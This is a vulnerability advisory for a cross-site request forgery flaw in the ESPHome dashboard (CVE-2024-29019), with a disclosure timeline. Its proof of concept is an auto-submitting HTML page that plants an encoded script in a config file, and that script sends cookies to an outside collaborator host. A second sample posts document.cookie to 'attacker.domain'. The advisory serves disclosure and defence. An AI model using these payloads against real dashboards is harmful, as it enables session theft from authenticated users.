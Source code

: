 # Authentication bypass via Cross site request forgery (CVE-2024-29019) #

## Summary
API endpoints in dashboard component of ESPHome version 2023.12.9 (command line installation) are vulnerable to Cross-Site Request Forgery (CSRF), allowing remote attackers to carry out attacks against a logged user of the dashboard, to perform operations on configuration files (create, edit, delete).

## Affected products
* ESPHome versions >= 2023.12.9, < 2024.3.0

## Details
It is possible for a malicious actor to create a specifically crafted web page that triggers a cross site request against ESPHome. This allows bypassing the authentication for API calls on the platform by tricking the victim into visiting a link.

## PoC
An example of malicious web page that abuses this vulnerability:

```
<html>
  <body>
	<form action="http://localhost:6052/edit?configuration=poc.yaml" id="#main" method="POST" enctype="text/plain" onsubmit="setTimeout(function () { window.location.reload(); }, 10)">
	<input type="hidden" name="&lt;script&gt;&#13;&#10;fetch&#40;&apos;https&#58;&#47;&#47;907zv9yp9u3rjerkiakydpvcr3xulk99&#46;oastify&#46;com&#63;x" value="y&apos;&#44;&#32;&#123;&#13;&#10;method&#58;&#32;&apos;POST&apos;&#44;&#13;&#10;mode&#58;&#32;&apos;no&#45;cors&apos;&#44;&#13;&#10;body&#58;document&#46;cookie&#13;&#10;&#125;&#41;&#59;&#13;&#10;&lt;&#47;script&gt;&#13;&#10;" />
	</form>

	<script>
	document.forms[0].submit();
	</script>

  </body>
</html>
```
In this PoC code, the attacker creates and weaponizes "poc.yaml" config file containing a cookie exfiltration script which will be executed when an authenticated user clicks on the malicious link provided by the attacker.

Example of such script:
```
<script>
fetch('https://attacker.domain', {
	method: 'POST', mode: 'no-cors', body:document.cookie });
</script>
```

## Impact
This vulnerability allows bypassing authentication on API calls accessing configuration file operations on the behalf of an authenticated user. Furthermore, it is possible to chain this vulnerability with CVE-2024-27287 forcing the victim to load the content of the injected file (poc.yaml), and execute its malicious content, as demonstrated by the PoC code.

## Additional information

### Credit
Spike Reply Cybersecurity Team

### Acknowledgments
Thanks to ESPHome developers for their support with the disclosure of this issue.

### References
- https://nvd.nist.gov/vuln/detail/CVE-2024-29019
- https://github.com/advisories/GHSA-5925-88xh-6h99

### Disclosure timeline

- February 20, 2024: Initial vendor contact
- March 19, 2024 Patch proposed by ESPHome
- March 20, 2024 Spike Reply Cybersecurity Team confirms that security fixes included in patched version are effective
- March 20, 2024: Disclosure
